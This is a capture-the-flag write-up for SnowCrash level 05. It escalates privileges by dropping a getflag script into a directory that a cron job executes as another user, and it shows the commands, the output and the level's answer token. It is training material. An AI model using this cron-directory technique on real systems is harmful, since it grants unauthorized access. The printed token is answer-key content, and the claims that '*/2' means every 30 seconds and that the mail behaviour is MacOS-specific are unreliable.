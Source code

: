 # Level 05

## Vulnerability
Privilege escalation, cron

## Context
when we ssh log in directly to level05, we see the message ```You have new mail.```

## Solution
Lets investigate the mail hint. Cron on MacOS saves mail to /var/mail/{user}.
```
level05@SnowCrash:~$ cat /var/mail/level05
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```
User flag05 informs us they set up a cron job to run a script /usr/sbin/openarenaserver every 30 seconds.

Lets have a look at the script.
```
level05@SnowCrash:~$ ls -l /usr/sbin/openarenaserver
-rwxr-x---+ 1 flag05 flag05 94 Mar  5  2016 /usr/sbin/openarenaserver
```
We see this script is run with user flag05 permissions. Unfortunately I don't have permission to edit this file (and have it call getflag). So lets investigate what this script does.
```
level05@SnowCrash:~$ cat /usr/sbin/openarenaserver
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```
This script will run all files in /opt/openarenaserver in a bash shell.
Thus we should create a bash script to call getflag in /opt/openarenaserver/.
```
level05@SnowCrash:~$ echo "getflag > /dev/shm/flag" > /opt/openarenaserver/getflag.sh
level05@SnowCrash:~$ chmod +x /opt/openarenaserver/getflag.sh
```
Wait a minute... and...
```
level05@SnowCrash:~$ cat /dev/shm/flag
Check flag.Here is your token : viuaaale9huek52boumoomioc
```
